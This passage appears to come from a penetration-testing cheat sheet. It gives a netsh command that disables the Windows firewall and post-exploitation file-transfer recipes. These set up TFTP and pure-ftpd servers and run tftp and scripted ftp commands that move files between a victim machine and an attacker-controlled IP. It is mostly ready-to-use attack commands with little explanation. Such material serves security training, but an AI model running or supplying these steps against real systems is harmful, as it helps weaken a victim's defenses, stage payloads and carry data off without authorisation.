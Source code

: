 Deactivate Firewall
```console
netsh firewall set opmode disable
```


# Client Side attacks


# Post Exploitation

## File Transfer

### TFTP

Setting up TFTP server
```console
atftpd --daemon --port 69 <DIR>
```

Downloading file from victim
```console
tftp -i <IP-ATTACKER> PUSH <FILE>
```

Uploading file to victim
```console
tftp -i <IP-ATTACKER> GET <FILE>
```

### FTP

Create designated FTP user 
```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

Uploading specific file to victim
```console
echo open <IP> 21 > ftp.txt
echo USER offsec >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET <FILE> >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```
### Scripting Language
